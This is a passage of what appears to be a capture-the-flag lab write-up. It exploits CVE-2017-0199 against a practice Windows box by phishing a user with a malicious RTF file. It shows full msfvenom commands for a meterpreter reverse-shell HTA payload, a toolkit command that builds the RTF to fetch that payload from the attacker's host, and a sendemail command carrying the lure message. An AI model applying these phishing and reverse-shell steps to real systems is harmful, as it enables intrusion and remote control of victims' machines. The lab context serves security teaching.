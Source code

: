 ```a
```

But the most interesting feature of this file is hidden in the metadata:

![img](/images/writeup-reel/3.png)

There's an email address, so now we can try sending .rtf files to this address and they should be opened. We have to be careful because security measures seem to have been configured, so we need to bypass AppLocker if we want access on the box. Another interesting information is the Application field, it tells us the document was created with Microsoft Office Word.

Because we know we should only send .rtf documents I searched Google for rtf-based exploits and found something very interesting: CVE-2017-0199. This vulnerability allows for the creation of malicious rtf documents that launch an HTA (HyperText Application) payload upon opening of the document, a Python toolkit to craft malicious documents that exploit this vulnerability is on [Github](https://github.com/bhdresh/CVE-2017-0199) but there also is a Metasploit module, still, I'm going to use the Python script.

---

## Exploitation attempt 1: Python script + msfvenom

First thing needed is to create an HTA payload:

```a
┌─[✗]─[baud@parrot]─[~/CVE-2017-0199]
└──╼ $msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.37 LPORT=9999 -f hta-psh -o ../reel/payload.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of hta-psh file: 7125 bytes
Saved as: ../reel/payload.hta
```

And then generate the .rtf document:

```a
┌─[baud@parrot]─[~/CVE-2017-0199]
└──╼ $python cve-2017-0199_toolkit.py -M gen -w ../reel/document.rtf -u http://10.10.14.37:9090/payload.hta
Generating normal RTF payload.

Generated ../reel/document.rtf successfully
```

Finally the email can be sent:

```a
┌─[baud@parrot]─[~/reel]
└──╼ $sendemail -f baud@megabank.com -t nico@megabank.com -u Test -m "Hey, take a look at this new format procedure" -a document.rtf -s 10.10.10.77
Sep 02 13:21:56 parrot sendemail[2843]: Email was sent successfully!
```
